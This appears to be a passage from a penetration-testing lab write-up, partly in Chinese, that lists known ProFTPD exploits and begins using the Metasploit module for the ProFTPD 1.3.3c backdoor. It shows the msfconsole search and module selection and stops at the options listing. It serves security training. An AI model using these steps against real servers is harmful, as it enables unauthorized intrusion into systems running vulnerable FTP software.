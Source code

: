 ```
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                               | exploits/linux/remote/36803.py
ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection                                                                                                  | exploits/multiple/remote/32798.pl
ProFTPd 1.x - 'mod_tls' Remote Buffer Overflow                                                                                                    | exploits/linux/remote/4312.c
ProFTPd - 'ftpdctl' 'pr_ctrls_connect' Local Overflow                                                                                             | exploits/linux/local/394.c
ProFTPd IAC 1.3.x - Remote Command Execution                                                                                                      | exploits/linux/remote/15449.pl
ProFTPd - 'mod_mysql' Authentication Bypass                                                                                                       | exploits/multiple/remote/8037.txt
ProFTPd - 'mod_sftp' Integer Overflow Denial of Service (PoC)                                                                                     | exploits/linux/dos/16129.txt
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glob Expansion                                                      | exploits/linux/remote/20690.sh
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (1)                                                  | exploits/linux/remote/19086.c
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (2)                                                  | exploits/linux/remote/19087.c
-------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
```

We use `ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)` module.

[ProFTPD-1.3.3c Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor/)

ProFTPD-1.3.3c 后门命令执行

该模块利用了添加到 ProFTPD 下载存档中的恶意后门。这个后门存在于 2010 年 11 月 28 日至 2010 年 12 月 2 日之间的 proftpd-1.3.3c.tar.[bz2|gz] 存档中。

[Exploits/proftpd-1.3.3c-backdoor](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor)

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search proftpd

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   3  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   4  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
   5  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution


msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show options

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
```